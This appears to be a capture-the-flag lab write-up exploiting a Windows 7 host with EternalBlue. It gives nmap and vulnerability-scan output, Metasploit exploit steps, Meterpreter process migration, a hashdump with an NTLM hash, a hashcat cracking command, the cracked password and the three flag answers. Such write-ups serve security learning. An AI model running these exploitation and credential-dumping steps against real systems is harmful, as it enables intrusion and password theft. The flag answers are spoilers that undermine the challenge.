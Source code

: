 # ETERNAL BLUE EXPLOIT

Scan with nmap

```
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:13 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2021-02-21T20:14:53+00:00; 0s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 2h59m59s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:77:f6:09:71:6b (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-21T14:14:47-06:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-21T20:14:48
|_  start_date: 2021-02-21T20:10:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.70 seconds </p>

```

Re run nmap with --script vuln to find vulnerablities

```
#####Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:18 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ms-wbt-server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 97.85 seconds
```

System is vulnerable to MS17-010 (EternalBlue) - some other vulnerablities were found but as this room relates to eternal blue this is obviously the right one.

Logging into a remote Kali Machine was required, for some reason I could not get reverse handler to work properly on Ubuntu

**Metasploit Exploit Steps**

    Search ms17-010
    Use /windows/smb/ms10_010_eternalblue
    set RHOSTS - target IP
    exploit
    I'm in

**Privesc**

    use shell\_to\_meterpreter
    set sessions to be the session that we are using
    ps to list processes
    migrate to another process. Apparently winlogon.exe seems to be pretty stable on Windows so I'll use that

**Obtaining Jons password**

    hashdump
    JONS password = Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**Cracking Jons password using hashcat**

```
hashcat -a0 -m1000 ffb43f0de35be4d9917ac0cc8ad57f8d /home/gabriel/Documents/rockyou.txt
```
    Jons password alqfna22

**Find Flags**
Flag1 = flag{access_the_machine} located at the C drive

Flag2 = flag{sam_database_elevated_access} located where windows stores passwords /windows/system32/config

Flag3 = flag{admin_documents_can_be_valuable} in the Documents folder.
